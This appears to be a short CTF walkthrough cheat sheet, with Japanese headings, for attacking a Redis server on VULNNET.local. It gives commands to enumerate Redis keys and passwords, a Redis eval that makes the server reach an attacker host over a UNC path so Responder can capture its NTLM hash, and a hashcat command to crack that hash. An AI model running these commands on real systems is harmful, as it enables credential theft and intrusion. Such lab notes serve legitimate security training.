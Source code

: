 # redis-cli

```sh
redis-cli -h VULNNET.local -p 6379
```

```sh

info

keys *

scan 0

get <key>

config get *

config get requirepass

auth <password>
```

## responder でNTLMハッシュをキャプチャ

```sh
sudo responder -I tun0
```

```sh
eval "dofile('//<attacker-ip>/noexist')" 0
```

NTLMv2-SSP ハッシュのクラック

```shell
hashcat -m 5600 <hash file> <password file> --force
```
